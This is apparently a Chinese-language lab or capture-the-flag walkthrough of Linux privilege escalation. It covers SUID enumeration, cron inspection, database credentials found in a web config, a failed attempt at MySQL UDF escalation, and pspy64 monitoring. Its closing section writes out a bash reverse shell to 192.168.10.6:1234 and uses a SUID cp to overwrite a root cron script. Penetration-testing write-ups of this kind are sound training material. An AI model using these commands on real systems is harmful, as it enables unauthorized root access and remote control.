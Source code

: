 ![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXc2ZMcVqpOE1Ra1y7T2lSQepJOictjx9jIeg4szOVddxsGCyEYic46RW1w/640?wx_fmt=jpeg&from=appmsg "")  
  
使用find  
寻找具有SUID权限的文件  
```
find - perm -u=s -type f 2>/dev/null

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXchNYEJJ00AhwwgdKT2kP6k9KE6cyplck4Xoz74TAsMfcXHdkYJPdiaqQ/640?wx_fmt=jpeg&from=appmsg "")  
  
查看定时任务  
```
cat /etc/crontab

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcJlKkyhz6Bz3JEUyFfpf4H3JvPgkDMwWINnWFO4skQflTaWnrHicvXaA/640?wx_fmt=jpeg&from=appmsg "")  
  
查看网站中的配置文件，发现连接数据库的用户名和密码，并且以root  
连接的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXc5sAJEYp9rBE06UjiaBvabwH4MZiahZ8WFvKbNXtZnLKev1mljnj7qLNg/640?wx_fmt=jpeg&from=appmsg "")  
  
瞬间就让人想到udf  
提权，不过还是需要进一步验证  
  
查看相关配置，可能确实可以udf  
提权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcF1cw5LWibTSdm1oyYRKV52TqldC7oed6ssBqibyoug8HgG8nqeicu9epg/640?wx_fmt=jpeg&from=appmsg "")  
  
不过再尝试进行dumpfile  
时，这个是被拒绝了，还是不能udf  
提权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXc81JyclH6hQUMzGq4Ttn94KWictVLMVNbTTjWDKnMt4UnxFKKibITHF0A/640?wx_fmt=jpeg&from=appmsg "")  
  
上传一些脚本检测吧，上传pspy64  
，执行后发现，有一个脚本每5分钟执行一次  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcgcRxNvAicPzCnSEtp8ib3F5LDQVgpib5sGicPO0nuvQc8ujnuRro6oFhvw/640?wx_fmt=jpeg&from=appmsg "")  
## 定时任务提权  
  
已知，有脚本定时以root  
身份执行，并且在前面寻找SUID权限文件时，有cp  
命令，那么就可以创建一个反弹shell  
的脚本，使用cp  
覆盖原本的定时任务，就可以获得一个root  
的反弹shell  
```
#先在kali开启监听
nc -lvnp 1234
#然后执行命令
cd /tmp  #这里可以创建文件
echo "/bin/bash -i >& /dev/tcp/192.168.10.6/1234 0>&1" > 1.sh
cat 1.sh #确保反弹shell命令写入
/usr/bin/cp 1.sh /var/www/maintenance.sh #开始使用具有SUID权限的cp进行覆盖
ls -l /var/www  #确保只有一个文件，也就是确保覆盖
cat /var/www/maintenance.sh  #再次确认，内容是否修改

```  
  